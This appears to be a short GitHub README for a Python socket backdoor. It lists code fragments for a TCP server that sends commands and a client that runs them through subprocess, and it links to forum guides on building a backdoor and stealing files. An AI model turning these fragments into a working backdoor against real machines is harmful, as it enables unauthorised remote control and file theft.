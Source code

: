 # Backdoor-Client-Server-Socket-Python
Simple backdoor using lib python's socket

# lib
- `from socket import *` # for connection
- `import subprocess` # for cmd command

# Server
- `sock = socket(AF_INET, SOCK_STREAM)` # set TCP socket
- `port = 12345` # port of server
- `sock.bind(('', port)) && sock.listen(1)` # set server
- `conn, addr = sock.accept()` # conn = connection && addr = (client)address
- `conn.send(command.encode())` # send in array bytes
- `conn.recv(1024).decode("utf-8")` #receive and convert in string

# Client
- `CMD = subprocess.Popen(command, ...)` # set subprocess for send CMD command

# Guides
|Guides|Links|
|--|--|
|Establish A Connection|[Link](https://www.inforge.net/forum/threads/1-come-creare-una-backdoor-in-python-stabilire-una-connessione.603065/)|
|Steal Files|[Link](https://www.inforge.net/forum/threads/2-come-creare-una-backdoor-in-python-rubare-i-file.603756/)|
